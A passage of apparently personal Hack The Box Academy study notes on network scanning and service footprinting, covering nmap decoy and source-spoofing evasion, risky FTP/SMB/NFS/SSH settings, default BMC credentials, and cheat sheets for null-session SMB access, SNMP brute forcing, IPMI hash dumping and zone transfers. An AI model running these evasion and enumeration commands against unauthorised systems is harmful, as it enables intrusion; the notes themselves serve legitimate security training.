SENT (0.0378s) TCP 102.52.161.59:59289 > 10.129.2.28:80 S ttl=42 id=29822 iplen=44  seq=3687542010 win=1024 <mss 1460>
SENT (0.0378s) TCP 10.10.14.2:59289 > 10.129.2.28:80 S ttl=59 id=29822 iplen=44  seq=3687542010 win=1024 <mss 1460>
SENT (0.0379s) TCP 210.120.38.29:59289 > 10.129.2.28:80 S ttl=37 id=29822 iplen=44  seq=3687542010 win=1024 <mss 1460>
SENT (0.0379s) TCP 191.6.64.171:59289 > 10.129.2.28:80 S ttl=38 id=29822 iplen=44  seq=3687542010 win=1024 <mss 1460>
SENT (0.0379s) TCP 184.178.194.209:59289 > 10.129.2.28:80 S ttl=39 id=29822 iplen=44  seq=3687542010 win=1024 <mss 1460>
SENT (0.0379s) TCP 43.21.121.33:59289 > 10.129.2.28:80 S ttl=55 id=29822 iplen=44  seq=3687542010 win=1024 <mss 1460>
RCVD (0.1370s) TCP 10.129.2.28:80 > 10.10.14.2:59289 SA ttl=64 id=0 iplen=44  seq=4056111701 win=64240 <mss 1460>
Nmap scan report for 10.129.2.28
Host is up (0.099s latency).

PORT   STATE SERVICE
80/tcp open  http
MAC Address: DE:AD:00:00:BE:EF (Intel Corporate)

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds
```

| Scanning Options | Description | 
| ---------------- | ----------- |
| `10.129.2.28` | Scans the specified target. | 
| `-p 80` | Scans only the specified ports. | 
| `-sS` | Performs SYN scan on specified ports. | 
| `-Pn` | Disables ICMP Echo requests. | 
| `-n` | Disables DNS resolution. | 
| `--disable-arp-ping` | Disables ARP ping. | 
| `--packet-trace` | Shows all packets sent and received. | 
| `-D RND:5` | Generates five random IP addresses that indicates the source IP the connection comes from. | 


**Specified Source IP**
```sh
woadey@htb[/htb]$ sudo nmap 10.129.2.28 -n -Pn -p 445 -O -S 10.129.2.200 -e tun0

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 01:16 CEST
Nmap scan report for 10.129.2.28
Host is up (0.010s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: DE:AD:00:00:BE:EF (Intel Corporate)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 2.6.32 - 3.10 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Synology DiskStation Manager 5.2-5644 (94%), Linux 2.6.32 - 2.6.35 (94%), Linux 2.6.32 - 3.5 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.11 seconds
```

| Scanning Options | Description |
| ---------------- | ----------- |
| `10.129.2.28` | Scans the specified target. |
| `-n `| Disables DNS resolution. |
| `-Pn` | Disables ICMP Echo requests. |
| `-p 445` | Scans only the specified ports. |
| `-O` | Performs operation system detection scan. |
| `-S` | Scans the target by using different source IP address. |
| `10.129.2.200` | Specifies the source IP address. |
| `-e tun0 `| Sends all requests through the specified interface. |

**Specified Source Port**
```sh
woadey@htb[/htb]$ sudo nmap 10.129.2.28 -p50000 -sS -Pn -n --disable-arp-ping --packet-trace --source-port 53

SENT (0.0482s) TCP 10.10.14.2:53 > 10.129.2.28:50000 S ttl=58 id=27470 iplen=44  seq=4003923435 win=1024 <mss 1460>
RCVD (0.0608s) TCP 10.129.2.28:50000 > 10.10.14.2:53 SA ttl=64 id=0 iplen=44  seq=540635485 win=64240 <mss 1460>
Nmap scan report for 10.129.2.28
Host is up (0.013s latency).

PORT      STATE SERVICE
50000/tcp open  ibm-db2
MAC Address: DE:AD:00:00:BE:EF (Intel Corporate)

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

| Scanning Options | Description |
| ---------------- | ----------- |
| `10.129.2.28` | Scans the specified target. |
| `-p 50000` | Scans only the specified ports. |
| `-sS` | Performs SYN scan on specified ports. |
| `-Pn` | Disables ICMP Echo requests. |
| `-n` | Disables DNS resolution. |
| `--disable-arp-ping` | Disables ARP ping. |
|` --packet-trace` | Shows all packets sent and received. |
| `--source-port 53` | Performs the scans from specified source port. |


### Complete
[Link Of Completion](https://academy.hackthebox.com/achievement/713396/19)

&nbsp;

-----

&nbsp;

## Footprinting

### Enumeration Principles
| No. | Principle |
| --- | --------- |
| 1. | There is more than meets the eye. Consider all points of view. |
| 2. | Distinguish between what we see and what we do not see. |
| 3. | There are always ways to gain more information. Understand the target. |

**Enumermation Questions**
- What can we see?
- What reasons can we have for seeing it?
- What image does what we see create for us?
- What do we gain from it?
- How can we use it?
- What can we not see?
- What reasons can there be that we do not see?
- What image results for us from what we do not see?

### Enumeration Methodology


| Layer | Description | Information Categories |
| ----- | ----------- | ---------------------- |
| 1. Internet Presence | Identification of internet presence and externally accessible infrastructure. | Domains, Subdomains, vHosts, ASN, Netblocks, IP Addresses, Cloud Instances, Security Measures |
| 2. Gateway | Identify the possible security measures to protect the company's external and internal infrastructure. | Firewalls, DMZ, IPS/IDS, EDR, Proxies, NAC, Network Segmentation, VPN, Cloudflare |
| 3. Accessible Services | Identify accessible interfaces and services that are hosted externally or internally. | Service Type, Functionality, Configuration, Port, Version, Interface |
| 4. Processes | Identify the internal processes, sources, and destinations associated with the services. | PID, Processed Data, Tasks, Source, Destination |
| 5. Privileges | Identification of the internal permissions and privileges to the accessible services. | Groups, Users, Permissions, Restrictions, Environment |
| 6. OS Setup | Identification of the internal components and systems setup. | OS Type, Patch Level, Network config, OS Environment, Configuration files, sensitive private files |

### FTP

FTP, or File Transfer Protocol, is a standard network protocol used for the transfer of files between a client and server on a computer network. The FTP runs within the application layer of the TCP/IP protocol stack. It's built on a client-server model architecture and uses separate control and data connections between the client and the server.

**Ports**
- 20 (TCP): Data transfer port (Active Mode).
- 21 (TCP): Command/control port (used for connecting to the FTP server).

**vsFTPd**
| Setting | Description |
| ------- | ----------- |
| `listen=NO` | Run from inetd or as a standalone daemon? |
| `listen_ipv6=YES` | Listen on IPv6 ? |
| `anonymous_enable=NO` | Enable Anonymous access? |
| `local_enable=YES` | Allow local users to login? |
| `dirmessage_enable=YES` | Display active directory messages when users go into certain directories? |
| `use_localtime=YES` | Use local time? |
| `xferlog_enable=YES` | Activate logging of uploads/downloads? |
| `connect_from_port_20=YES` | Connect from port 20?
| `secure_chroot_dir=/var/run/vsftpd/empty` | Name of an empty directory |
| `pam_service_name=vsftpd` | This string is the name of the PAM service vsftpd will use. |
| `rsa_cert_file=/etc/ssl/certs/ssl-cert-snakeoil.pem` | The last three options specify the location of the RSA certificate to use for SSL encrypted connections. |
| `rsa_private_key_file=/etc/ssl/private/ssl-cert-snakeoil.key` |
| `ssl_enable=NO` |

**Dangerous Settings**
| Setting | Description |
| ------- | ----------- |
| `anonymous_enable=YES` | Allowing anonymous login? |
| `anon_upload_enable=YES` | Allowing anonymous to upload files? |
| `anon_mkdir_write_enable=YES` | Allowing anonymous to create new directories? |
| `no_anon_password=YES` | Do not ask anonymous for password? |
| `anon_root=/home/username/ftp` | Directory for anonymous. |
| `write_enable=YES` | Allow the usage of FTP commands: STOR, DELE, RNFR, RNTO, MKD, RMD, APPE, and SITE? |

### SMB
SMB, or Server Message Block, is a network file sharing protocol that allows applications on a computer to read and write to files and request services from server programs in a computer network. SMB is used to enable access to files, printers, and other shared resources on a network.

**Ports**
- 137 (UDP): Used for NetBIOS name service. 
- 138 (UDP): Used for NetBIOS datagram service.
- 139 (TCP/UDP): Used for SMB over NetBIOS (a legacy protocol).
- 445 (TCP/UDP): Used for SMB over TCP/IP (CIFS only uses port 445)

**smb.conf**
| Setting | Description |
| ------- | ----------- |
| `[sharename]` | The name of the network share. |
| `workgroup = WORKGROUP/DOMAIN` | Workgroup that will appear when clients query. |
| `path = /path/here/` | The directory to which user is to be given access. |
| `server string = STRING` | The string that will show up when a connection is initiated. |
| `unix password sync = yes` | Synchronize the UNIX password with the SMB password? |
| `usershare allow guests = yes` | Allow non-authenticated users to access defined share? |
| `map to guest = bad user` | What to do when a user login request doesn't match a valid UNIX user? |
| `browseable = yes` | Should this share be shown in the list of available shares? |
| `guest ok = yes` | Allow connecting to the service without using a password? |
| `read only = yes` | Allow users to read files only? |
| `create mask = 0700` | What permissions need to be set for newly created files? |

**Dangerous Settings**
| Setting | Description |
| ------- | ----------- |
| `browseable = yes` | Allow listing available shares in the current share? |
| `read only = no` | Forbid the creation and modification of files? |
| `writable = yes` | Allow users to create and modify files? |
| `guest ok = yes` | Allow connecting to the service without using a password? |
| `enable privileges = yes` | Honor privileges assigned to specific SID? |
| `create mask = 0777` | What permissions must be assigned to the newly created files? |
| `directory mask = 0777` | What permissions must be assigned to the newly created directories? |
| `logon script = script.sh` | What script needs to be executed on the user's login? |
| `magic script = script.sh` | Which script should be executed when the script gets closed? |
| `magic output = script.out` | Where the output of the magic script needs to be stored? |

**SMB Tools**
- smbclient
- RPCclient
- Samrdump.py (Impacket)
- SMBmap
- CrackMapExec
- Enum4Linux-ng

### NFS

Network File System (NFS) is a network file system developed by Sun Microsystems and has the same purpose as SMB. Its purpose is to access file systems over a network as if they were local. However, it uses an entirely different protocol. NFS is used between Linux and Unix systems. This means that NFS clients cannot communicate directly with SMB servers. NFS is an Internet standard that governs the procedures in a distributed file system.

| Version | Features |
| ------- | -------- |
| NFSv2 | It is older but is supported by many systems and was initially operated entirely over UDP. |
| NFSv3 | It has more features, including variable file size and better error reporting, but is not fully compatible with NFSv2 clients. |
| NFSv4 | It includes Kerberos, works through firewalls and on the Internet, no longer requires portmappers, supports ACLs, applies state-based operations, and provides performance improvements and high security. It is also the first version to have a stateful protocol. |

**Ports**
- 111 (TCP): RPCbind/Portmapper
- 2049 (TCP/UDP): This is the primary port used by NFS servers for client-server communication.

**/etc/exports**
| Option | Description |
| ------ | ----------- |
| `rw`   | Read and write permissions. |
| `ro`   | Read only permissions. |
| `sync` | Synchronous data transfer. (A bit slower) |
| `async` | Asynchronous data transfer. (A bit faster) |
| `secure`           | Ports above 1024 will not be used. |
| `insecure`         | Ports above 1024 will be used. |
| `no_subtree_check` | This option disables the checking of subdirectory trees. |
| `root_squash`      | Assigns all permissions to files of root UID/GID 0 to the UID/GID of anonymous, which prevents root from accessing files on an NFS mount. |

**Dangerous Settings**
| Option | Description |
| ------ | ----------- |
| `rw` | Read and write permissions. |
| `insecure` | Ports above 1024 will be used. |
| `nohide` | If another file system was mounted below an exported directory, this directory is exported by its own exports entry. |
| `no_root_squash` | All files created by root are kept with the UID/GID 0. |

**Show Mount**
```sh
woadey@htb[/htb]$ showmount -e 10.129.14.128

Export list for 10.129.14.128:
/mnt/nfs 10.129.14.0/24
```

**Mount NFS Share**
```sh
woadey@htb[/htb]$ mkdir target-NFS
woadey@htb[/htb]$ sudo mount -t nfs 10.129.14.128:/ ./target-NFS/ -o nolock
woadey@htb[/htb]$ cd target-NFS
woadey@htb[/htb]$ tree .

.
└── mnt
    └── nfs
        ├── id_rsa
        ├── id_rsa.pub
        └── nfs.share

2 directories, 3 files
```

**Unmounting**
```sh
woadey@htb[/htb]$ sudo umount ./target-NFS
```

### DNS
DNS, or Domain Name System, is a hierarchical and decentralized naming system for computers, services, or other resources connected to the Internet or a private network. It translates more readily memorized domain names to the numerical IP addresses needed for locating and identifying computer services and devices with the underlying network protocols.


**Ports**
- 53 (TCP/UDP): The primary port used by DNS servers.

| Server Type                  | Description |
|------------------------------|-------------|
| DNS Root Server              | The root servers of the DNS are responsible for the top-level domains (TLD). As the last instance, they are only requested if the name server does not respond. Thus, a root server is a central interface between users and content on the Internet, as it links domain and IP address. The Internet Corporation for Assigned Names and Numbers (ICANN) coordinates the work of the root name servers. There are 13 such root servers around the globe. |
| Authoritative Nameserver     | Authoritative name servers hold authority for a particular zone. They only answer queries from their area of responsibility, and their information is binding. If an authoritative name server cannot answer a client's query, the root name server takes over at that point. |
| Non-authoritative Nameserver | Non-authoritative name servers are not responsible for a particular DNS zone. Instead, they collect information on specific DNS zones themselves, which is done using recursive or iterative DNS querying. |
| Caching DNS Server           | Caching DNS servers cache information from other name servers for a specified period. The authoritative name server determines the duration of this storage. |
| Forwarding Server            | Forwarding servers perform only one function: they forward DNS queries to another DNS server. |
| Resolver                     | Resolvers are not authoritative DNS servers but perform name resolution locally in the computer or router. |




| DNS Record | Description |
|------------|-------------|
| A          | Returns an IPv4 address of the requested domain as a result. |
| AAAA       | Returns an IPv6 address of the requested domain. |
| MX         | Returns the responsible mail servers as a result. |
| NS         | Returns the DNS servers (nameservers) of the domain. |
| TXT        | This record can contain various information. The all-rounder can be used, e.g., to validate the Google Search Console or validate SSL certificates. In addition, SPF and DMARC entries are set to validate mail traffic and protect it from spam. |
| CNAME      | This record serves as an alias. If the domain www.hackthebox.eu should point to the same IP, and we create an A record for one and a CNAME record for the other. |
| PTR        | The PTR record works the other way around (reverse lookup). It converts IP addresses into valid domain names. |
| SOA        | Provides information about the corresponding DNS zone and email address of the administrative contact. |


**DNS Tools**
- dnsenum
- dig

#### SMTP

The Simple Mail Transfer Protocol (SMTP) is a protocol for sending emails in an IP network. It can be used between an email client and an outgoing mail server or between two SMTP servers. SMTP is often combined with the IMAP or POP3 protocols, which can fetch emails and send emails. In principle, it is a client-server-based protocol, although SMTP can be used between a client and a server and between two SMTP servers. 

**Ports**
- 25 (TCP): This is the default SMTP non-encrypted port. It's widely used for SMTP relaying and communication between mail servers.
- 587 (TCP): Recommended for SMTP submission, especially for clients sending emails to a server. It supports STARTTLS, allowing encryption.
- 465 (TCP): Originally intended for SMTPS (SMTP over SSL), but was never standardized. Some systems still use it for SMTP with SSL/TLS encryption from the start of the connection.

| Command        | Description |
|----------------|-------------|
| `AUTH PLAIN`   | AUTH is a service extension used to authenticate the client. |
| `HELO`         | The client logs in with its computer name and thus starts the session. |
| `MAIL FROM`    | The client names the email sender. |
| `RCPT TO`      | The client names the email recipient. |
| `DATA`         | The client initiates the transmission of the email. |
| `RSET`         | The client aborts the initiated transmission but keeps the connection between client and server. |
| `VRFY`         | The client checks if a mailbox is available for message transfer. |
| `EXPN`         | The client also checks if a mailbox is available for messaging with this command. |
| `NOOP`         | The client requests a response from the server to prevent disconnection due to time-out. |
| `QUIT`         | The client terminates the session. |

**SMTP Tools**
- smtp-user-enum
- telnet

### IMAP / POP3
With the help of the Internet Message Access Protocol (IMAP), access to emails from a mail server is possible. Unlike the Post Office Protocol (POP3), IMAP allows online management of emails directly on the server and supports folder structures. Thus, it is a network protocol for the online management of emails on a remote server. The protocol is client-server-based and allows synchronization of a local email client with the mailbox on the server, providing a kind of network file system for emails, allowing problem-free synchronization across several independent clients. POP3, on the other hand, does not have the same functionality as IMAP, and it only provides listing, retrieving, and deleting emails as functions at the email server. Therefore, protocols such as IMAP must be used for additional functionalities such as hierarchical mailboxes directly at the mail server, access to multiple mailboxes during a session, and preselection of emails.

**Ports**
- 110 (TCP): POP3 (Standard) Used for retrieving emails with the Post Office Protocol version 3 (POP3) in a non-encrypted form.
- 143 (TCP): IMAP (Standard) Utilized for accessing emails using the Internet Message Access Protocol (IMAP) without encryption.
- 993 (TCP): IMAP over SSL/TLS (Secure) For accessing emails via IMAP securely using SSL/TLS encryption.
- 995 (TCP): POP3 over SSL/TLS (Secure) Used for secure email retrieval using POP3 with SSL/TLS encryption.

**IMAP Tools**
- evolution
- curl
- openssl


### SNMP
Simple Network Management Protocol (SNMP) is a widely used protocol for managing devices on IP networks. It's used for collecting information from, and configuring, network devices such as servers, printers, switches, routers, and more. 

**Ports**
- 161 (UDP): The main port used by SNMP for sending and receiving requests.
- 162 (UDP): This port is used for SNMP traps. Traps are alerts or notifications sent from an SNMP-enabled device to a management station.

**MIB**

To ensure that SNMP access works across manufacturers and with different client-server combinations, the Management Information Base (MIB) was created. MIB is an independent format for storing device information. A MIB is a text file in which all queryable SNMP objects of a device are listed in a standardized tree hierarchy. It contains at least one Object Identifier (OID), which, in addition to the necessary unique address and a name, also provides information about the type, access rights, and a description of the respective object. MIB files are written in the Abstract Syntax Notation One (ASN.1) based ASCII text format. The MIBs do not contain data, but they explain where to find which information and what it looks like, which returns values for the specific OID, or which data type is used.

**OID**

An OID represents a node in a hierarchical namespace. A sequence of numbers uniquely identifies each node, allowing the node's position in the tree to be determined. The longer the chain, the more specific the information. Many nodes in the OID tree contain nothing except references to those below them. The OIDs consist of integers and are usually concatenated by dot notation. 

**Dangerous Settings**
| Settings                                        | Description |
|-------------------------------------------------|-------------|
| rwuser noauth                                   | Provides access to the full OID tree without authentication. |
| rwcommunity <community string> <IPv4 address>   | Provides access to the full OID tree regardless of where the requests were sent from. |
| rwcommunity6 <community string> <IPv6 address>  | Same access as with rwcommunity with the difference of using IPv6. |


**SNMP Tools**
- SNMPwalk
- OneSixtyOne
- Braa


### MySQL

MySQL is a popular open-source relational database management system (RDBMS). It's widely used for a variety of applications, from small personal projects to large enterprise systems.

**Ports**
- 3306 (TCP): This is the default port used by MySQL. When a client connects to a MySQL server, it typically uses this port.

**Dangerous Settings**

| Settings           | Description |
|--------------------|-------------|
| user               | Sets which user the MySQL service will run as. |
| password           | Sets the password for the MySQL user. |
| admin_address      | The IP address on which to listen for TCP/IP connections on the administrative network interface. |
| debug              | This variable indicates the current debugging settings. |
| sql_warnings       | This variable controls whether single-row INSERT statements produce an information string if warnings occur. |
| secure_file_priv   | This variable is used to limit the effect of data import and export operations. |


**Key Commands**
| Command                                           | Description |
|---------------------------------------------------|-------------|
| `mysql -u <user> -p<password> -h <IP address>`      | Connect to the MySQL server. There should not be a space between the '-p' flag, and the password. |
| `show databases; `                                 | Show all databases. |
| `use <database>;`                                  | Select one of the existing databases. |
| `show tables; `                                    | Show all available tables in the selected database. |
| `show columns from <table>;`                       | Show all columns in the selected database. |
| `select * from <table>;`                           | Show everything in the desired table. |
| `select * from <table> where <column> = "<string>";` | Search for needed string in the desired table. |


### MSSQL
Microsoft SQL Server (MSSQL) is a relational database management system developed by Microsoft. It's designed to store, retrieve, and manage data for various software applications.

**Ports**
- 1433 (TCP): Default port for the SQL Server database engine.
- 1434 (TCP): Used for SQL Server named instances and the SQL Server Browser Service.

**Default Databases**
| Default System Database | Description |
|-------------------------|-------------|
| master                  | Tracks all system information for an SQL server instance |
| model                   | Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database |
| msdb                    | The SQL Server Agent uses this database to schedule jobs & alerts |
| tempdb                  | Stores temporary objects |
| resource                | Read-only database containing system objects included with SQL server |

**Tools**
- nmap
- msfconsole (scanner/mssql/mssql_ping)
- mssqlclient.py
- dbeaver

### IPMI
Intelligent Platform Management Interface (IPMI) is a standardized computer system interface used for out-of-band management of computer systems and monitoring of their operation. It allows system administrators to manage systems remotely and monitor system health, even in the absence of an operating system or when the system is powered off. Systems that use the IPMI protocol are called Baseboard Management Controllers (BMCs). Gaining access to a BMC is nearly equivalent to physical access to a system.

**Ports**
- 623 (UDP/TCP): The default port used for IPMI. It's used for remote management and monitoring.

**BMC Default Credentials**
Product	Username	Password
| Product           | Username       | Password |
|-------------------|----------------|----------|
| Dell iDRAC        | `root`           | `calvin`   |
| HP iLO            | `Administrator`  | randomized 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI   | `ADMIN`          | `ADMIN`    |


**Tools**
- nmap
- msfconsole (scanner/ipmi/ipmi_version, scanner/ipmi/ipmi_dumphashes)


### SSH
Secure Shell (SSH) is a cryptographic network protocol used for secure data communication, remote command-line login, remote command execution, and other secure network services between two networked computers.

**Ports**
- 22 (TCP): The default port used for SSH connections.

**Dangerous Settings**
| Setting                      | Description |
|------------------------------|-------------|
| PasswordAuthentication yes   | Allows password-based authentication. |
| PermitEmptyPasswords yes     | Allows the use of empty passwords. |
| PermitRootLogin yes          | Allows to log in as the root user. |
| Protocol 1                   | Uses an outdated version of encryption. |
| X11Forwarding yes            | Allows X11 forwarding for GUI applications. |
| AllowTcpForwarding yes       | Allows forwarding of TCP ports. |
| PermitTunnel                 | Allows tunneling. |
| DebianBanner yes             | Displays a specific banner when logging in. |

**Tools**
- ssh-audit.py


### Rsync
Rsync is a utility for efficiently transferring and synchronizing files across computer systems, using a data streaming technique to minimize data transfer.

**Ports**
- 873 (TCP/UDP): The default port used for Rsync services.

**Tools**
- nmap
- nc
- rsync


### R-Services
R-Services refers to a suite of services for remote command execution, typically used in UNIX and Linux environments. These include Rlogin, Rsh, and Rexec.

**Ports**
- 514 (TCP/UDP): Used for Rsh (Remote Shell).
- 513 (TCP/UDP): Used for Rlogin (Remote Login).
- 512 (TCP): Used for Rexec (Remote Execution).

**Commands**

| Command | Service Daemon | Port | Transport Protocol | Description |
|---------|----------------|------|-------------------|-------------|
| `rcp`     | rshd           | 514  | TCP               | Copy a file or directory bidirectionally from the local system to the remote system (or vice versa) or from one remote system to another. It works like the cp command on Linux but provides no warning to the user for overwriting existing files on a system. |
| `rsh`     | rshd           | 514  | TCP               | Opens a shell on a remote machine without a login procedure. Relies upon the trusted entries in the /etc/hosts.equiv and .rhosts files for validation. |
| `rexec`   | rexecd         | 512  | TCP               | Enables a user to run shell commands on a remote machine. Requires authentication through the use of a username and password through an unencrypted network socket. Authentication is overridden by the trusted entries in the /etc/hosts.equiv and .rhosts files. |
| `rlogin`  | rlogind        | 513  | TCP               | Enables a user to log in to a remote host over the network. It works similarly to telnet but can only connect to Unix-like hosts. Authentication is overridden by the trusted entries in the /etc/hosts.equiv and .rhosts files. |


### RDP
Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft, providing a user with a graphical interface to connect to another computer over a network connection.

**Ports**
- 3389 (TCP/UDP): The default port used for RDP connections.

**RDP Tools**
- nmap
- xfreerdp
- rdesktop
- remmina

### Windows Remote Management (WinRM)
Windows Remote Management (WinRM) is Microsoft's implementation of the WS-Management protocol, a standard web services protocol used for remote software and hardware management.

**Ports**
- 5985 (TCP): Used for HTTP connections.
- 5986 (TCP): Used for HTTPS connections.

**WinRM Tools**
- Test-WsMan
- evil-winrm

### WMI
Windows Management Instrumentation (WMI) is a set of extensions to the Windows Driver Model that provides an operating system interface through which instrumented components provide information and notification.

**Ports**
- 135 (TCP): The default port used for WMI connections.

**WMI Tools**
- wmiexec.py

### Infrastructure-based Enumeration Cheatsheet

| Command | Description |
|-|-|
| `curl -s https://crt.sh/\?q\=<target-domain>\&output\=json \| jq .` | Certificate transparency. |
| `for i in $(cat ip-addresses.txt);do shodan host $i;done` | Scan each IP address in a list using Shodan. |


### Host-based Enumeration Cheatsheet


**FTP**
| Command | Description |
|-|-|
| `ftp <FQDN/IP>` | Interact with the FTP service on the target. |
| `nc -nv <FQDN/IP> 21` | Interact with the FTP service on the target. |
| `telnet <FQDN/IP> 21` | Interact with the FTP service on the target. |
| `openssl s_client -connect <FQDN/IP>:21 -starttls ftp` | Interact with the FTP service on the target using encrypted connection. |
| `wget -m --no-passive ftp://anonymous:anonymous@<target>` | Download all available files on the target FTP server. |


**SMB**
| Command | Description |
|-|-|
| `smbclient -N -L //<FQDN/IP>` | Null session authentication on SMB. |
| `smbclient //<FQDN/IP>/<share>` | Connect to a specific SMB share. |
| `rpcclient -U "" <FQDN/IP>` | Interaction with the target using RPC. |
| `samrdump.py <FQDN/IP>` | Username enumeration using Impacket scripts. |
| `smbmap -H <FQDN/IP>` | Enumerating SMB shares. |
| `crackmapexec smb <FQDN/IP> --shares -u '' -p ''` | Enumerating SMB shares using null session authentication. |
| `enum4linux-ng.py <FQDN/IP> -A` | SMB enumeration using enum4linux. |


**NFS**
| Command | Description |
|-|-|
| `showmount -e <FQDN/IP>` | Show available NFS shares. |
| `mount -t nfs <FQDN/IP>:/<share> ./target-NFS/ -o nolock` | Mount the specific NFS share.umount ./target-NFS |
| `umount ./target-NFS` | Unmount the specific NFS share. |


**DNS**
| Command | Description |
|-|-|
| `dig ns <domain.tld> @<nameserver>` | NS request to the specific nameserver. |
| `dig any <domain.tld> @<nameserver>` | ANY request to the specific nameserver. |
| `dig axfr <domain.tld> @<nameserver>` | AXFR request to the specific nameserver. |
| `dnsenum --dnsserver <nameserver> --enum -p 0 -s 0 -o found_subdomains.txt -f ~/subdomains.list <domain.tld>` | Subdomain brute forcing. |


**SMTP**
| Command | Description |
|-|-|
| `telnet <FQDN/IP> 25` |  |


**IMAP/POP3**
| Command | Description |
|-|-|
| `curl -k 'imaps://<FQDN/IP>' --user <user>:<password>` | Log in to the IMAPS service using cURL. |
| `openssl s_client -connect <FQDN/IP>:imaps` | Connect to the IMAPS service. |
| `openssl s_client -connect <FQDN/IP>:pop3s` | Connect to the POP3s service. |


**SNMP**
| Command | Description |
|-|-|
| `snmpwalk -v2c -c <community string> <FQDN/IP>` | Querying OIDs using snmpwalk. |
| `onesixtyone -c community-strings.list <FQDN/IP>` | Bruteforcing community strings of the SNMP service. |
| `braa <community string>@<FQDN/IP>:.1.*` | Bruteforcing SNMP service OIDs. |


**MySQL**
| Command | Description |
|-|-|
| `mysql -u <user> -p<password> -h <FQDN/IP>` | Login to the MySQL server. |


**MSSQL**
| Command | Description |
|-|-|
| `mssqlclient.py <user>@<FQDN/IP> -windows-auth` | Log in to the MSSQL server using Windows authentication. |


**IPMI**
| Command | Description |
|-|-|
| `msf6 auxiliary(scanner/ipmi/ipmi_version)` | IPMI version detection. |
| `msf6 auxiliary(scanner/ipmi/ipmi_dumphashes)` | Dump IPMI hashes. |


**Linux Remote Management**
| Command | Description |
|-|-|
| `ssh-audit.py <FQDN/IP>` | Remote security audit against the target SSH service. |
| `ssh <user>@<FQDN/IP>` | Log in to the SSH server using the SSH client. |
| `ssh -i private.key <user>@<FQDN/IP>` | Log in to the SSH server using private key. |
| `ssh <user>@<FQDN/IP> -o PreferredAuthentications=password` | Enforce password-based authentication. |


**Windows Remote Management**
| Command | Description |
|-|-|
| `rdp-sec-check.pl <FQDN/IP>` | Check the security settings of the RDP service. |
| `xfreerdp /u:<user> /p:"<password>" /v:<FQDN/IP>` | Log in to the RDP server from Linux. |
| `evil-winrm -i <FQDN/IP> -u <user> -p <password>` | Log in to the WinRM server. |
| `wmiexec.py <user>:"<password>"@<FQDN/IP> "<system command>"` | Execute command using the WMI service. |

**Oracle TNS**
| Command | Description |
|-|-|
| `./odat.py all -s <FQDN/IP>` | Perform a variety of scans to gather information about the Oracle database services and its components. |
| `sqlplus <user>/<pass>@<FQDN/IP>/<db>` | Log in to the Oracle database. |
| `./odat.py utlfile -s <FQDN/IP> -d <db> -U <user> -P <pass> --sysdba --putFile C:\\insert\\path file.txt ./file.txt` | Upload a file with Oracle RDBMS. |


### Complete

[Link of Completion](https://academy.hackthebox.com/achievement/713396/112)

&nbsp;

-----

&nbsp;

## Information Gathering

### WHOIS
We can consider WHOIS as the "white pages" for domain names. It is a TCP-based transaction-oriented query/response protocol listening on TCP port 43 by default

```sh
woadey@htb[/htb]$ export TARGET="facebook.com" # Assign our target to an environment variable
woadey@htb[/htb]$ whois $TARGET

Domain Name: FACEBOOK.COM
Registry Domain ID: 2320948_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.registrarsafe.com
Registrar URL: https://www.registrarsafe.com
Updated Date: 2021-09-22T19:33:41Z
Creation Date: 1997-03-29T05:00:00Z
Registrar Registration Expiration Date: 2030-03-30T04:00:00Z
Registrar: RegistrarSafe, LLC
Registrar IANA ID: 3237
Registrar Abuse Contact Email: abusecomplaints@registrarsafe.com
Registrar Abuse Contact Phone: +1.6503087004
Domain Status: clientDeleteProhibited https://www.icann.org/epp#clientDeleteProhibited
Domain Status: clientTransferProhibited https://www.icann.org/epp#clientTransferProhibited
Domain Status: clientUpdateProhibited https://www.icann.org/epp#clientUpdateProhibited
Domain Status: serverDeleteProhibited https://www.icann.org/epp#serverDeleteProhibited
Domain Status: serverTransferProhibited https://www.icann.org/epp#serverTransferProhibited
Domain Status: serverUpdateProhibited https://www.icann.org/epp#serverUpdateProhibited
Registry Registrant ID:
Registrant Name: Domain Admin
Registrant Organization: Facebook, Inc.
Registrant Street: 1601 Willow Rd
Registrant City: Menlo Park
Registrant State/Province: CA
Registrant Postal Code: 94025
Registrant Country: US
Registrant Phone: +1.6505434800
Registrant Phone Ext:
Registrant Fax: +1.6505434800
Registrant Fax Ext:
Registrant Email: domain@fb.com
Registry Admin ID:
Admin Name: Domain Admin
Admin Organization: Facebook, Inc.
Admin Street: 1601 Willow Rd
Admin City: Menlo Park
Admin State/Province: CA
Admin Postal Code: 94025
Admin Country: US
Admin Phone: +1.6505434800
Admin Phone Ext:
Admin Fax: +1.6505434800
Admin Fax Ext:
Admin Email: domain@fb.com
Registry Tech ID:
Tech Name: Domain Admin
Tech Organization: Facebook, Inc.
Tech Street: 1601 Willow Rd
Tech City: Menlo Park
Tech State/Province: CA
Tech Postal Code: 94025
Tech Country: US
Tech Phone: +1.6505434800
Tech Phone Ext:
Tech Fax: +1.6505434800
Tech Fax Ext:
Tech Email: domain@fb.com
Name Server: C.NS.FACEBOOK.COM
Name Server: B.NS.FACEBOOK.COM
Name Server: A.NS.FACEBOOK.COM
Name Server: D.NS.FACEBOOK.COM
DNSSEC: unsigned

<SNIP>
```

### DNS
The DNS is the Internet's phone book. Domain names such as hackthebox.com and inlanefreight.com allow people to access content on the Internet. Internet Protocol (IP) addresses are used to communicate between web browsers. DNS converts domain names to IP addresses, allowing browsers to access resources on the Internet.


DNS Advantages:
- It allows names to be used instead of numbers to identify hosts.
- It is a lot easier to remember a name than it is to recall a number.
- By merely retargeting a name to the new numeric address, a server can change numeric addresses without having to notify everyone on the Internet.
- A single name might refer to several hosts splitting the workload between different servers.


### Passive Subdomain Enumeration

**VirusTotal**

